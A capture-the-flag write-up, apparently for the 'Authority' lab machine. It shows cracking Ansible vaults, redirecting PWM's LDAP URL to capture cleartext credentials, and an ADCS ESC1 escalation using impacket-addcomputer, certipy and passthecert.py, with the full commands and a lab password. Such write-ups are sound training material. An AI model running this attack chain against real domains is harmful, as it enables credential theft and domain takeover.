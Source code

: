 # INITIAL ACCESS

## DISCOVERY

The initial port scan revealed several ports related to Active Directory (88, 389, 445...).

The SMB service running on the machine allowed anonymous access to read its Development share. 	

![](screenshots/01-smb-shares.png)

The Development share contained various sensitive information, including an ansible vault at `Automation/Ansible/PWM/defaults/main.yml`

![](screenshots/02-ansible-vault.png)

## EXPLOIT 1 - ANSIBLE VAULT CRACKING

It is possible to crack Ansible vaults to reveal the password used to decrypt them. To do this, the following steps were put in place:

First, the vault hashes were stored in individual files without the extra spaces in the beginning.

![](screenshots/03-vaults-file.png)

Then, each file was formatted in a way that `johntheripper` could understand. That was done by using `ansible2john`. The password was easily cracked with the `rockyou.txt` list.

```sh
ansible2john <vault-file> >> pwm_vaults.hash
john --wordlist=/usr/share/wordlists/rockyou.txt pwm_vaults.hash
```

![](screenshots/04-vaults-hashes-cracked.png)

With the decryption password saved on `vault-pass.txt`, the actual content of the vault was retrieved

```sh
cat <vault-file> | ansible-vault decrypt --vault-password-file vault-pass.txt
```

![](screenshots/05-vaults-decrypted.png)

## EXPLOIT 2 - PWM LDAP CLEARTEXT CREDENTIAL CAPTURE

The credentials obtained for `pwm_admin_password` allowed access to a PWM instance running on port 8443. It was possible to reach it at https://authority.htb:8443

![](screenshots/06-pwm-landing.png)

On "Configuration Editor", the password obtained worked and granted access.

![](screenshots/07-config-editor.png)

The PWM application allowed the user to change the LDAP URL. This was abused to replace the default URL with an attacker-controlled URL. The following screenshots demonstrate the URL being changed.

![](screenshots/08-default-values.png)

![](screenshots/09-edited-values.png)

By saving the changes, the application restarted the connection, and the cleartext credentials for the LDAP server were captured on `responder`

![](screenshots/10-ldap-creds-captured.png)

The LDAP credentials obtained allowed initial access via WinRM.

![](screenshots/11-first-shell.png)

# PRIVILEGE ESCALATION

## DISCOVERY

Since the machine was running ADCS, it was possible to enumerate it with [Certify.exe](https://github.com/GhostPack/Certify) (You can find the compiled binary here - at your own risk: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

The enumeration command was `.\Certify.exe find /vulnerable`

![](screenshots/12-certify-vulnerable.png)

## EXPLOIT 3 - ADCS ESC1

According to the results from Certify.exe, the machine contained Misconfigured Certificate Templates (ESC1). The criteria to abuse ESC1 are the following:
1. The Enterprise CA grants low-privileged users enrollment rights.
2. Manager approval is disabled.
3. No authorized signatures are required.
4. An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users.
5. The certificate template defines EKUs that enable authentication.
6. The certificate template allows requesters to specify a subjectAltName (SAN) in the CSR.

More information about ADCS attacks here: https://posts.specterops.io/certified-pre-owned-d95910965cd2

To exploit this, the following steps were taken:

```sh
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name 'EVIL$' -computer-pass 'P@ssw0rd'
certipy req -u 'EVIL$' -p 'P@ssw0rd' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.129.236.117 -debug
certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
certipy cert -pfx administrator_authority.pfx -nocert -out user.key
python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.129.236.117
```

The commands above do the following:

1. Use LDAP account privileges to add a new computer.

![](screenshots/13-add-computer.png)

2. Request a new certificate from the new computer.

![](screenshots/14-cert-req.png)

3. Use the certificates obtained to authenticate to LDAP using [passthecert.py](https://github.com/AlmondOffSec/PassTheCert/tree/main) (see [Beyond Root](#Beyond-root)) to understand why).

![](screenshots/15-pass-the-cert.png)

4. Add a new admin user.

![](screenshots/16-add-administrator.png)

Thus, the new user had administrator privileges over the machine.

![](screenshots/17-root-shell.png)


# BEYOND ROOT

If you follow [certipy's ESC1 attack instructions](https://github.com/ly4k/Certipy#esc1), it will fail.

![](screenshots/beyond-root-TGT-fail.png)

This is because the Domain Controller in question does not support PKINIT. This could be because their certificates do not have the "Smart Card Logon" EKU. However, several protocols - including LDAP - support Schannel, thus authentication through TLS.

You can read more about it here:

https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html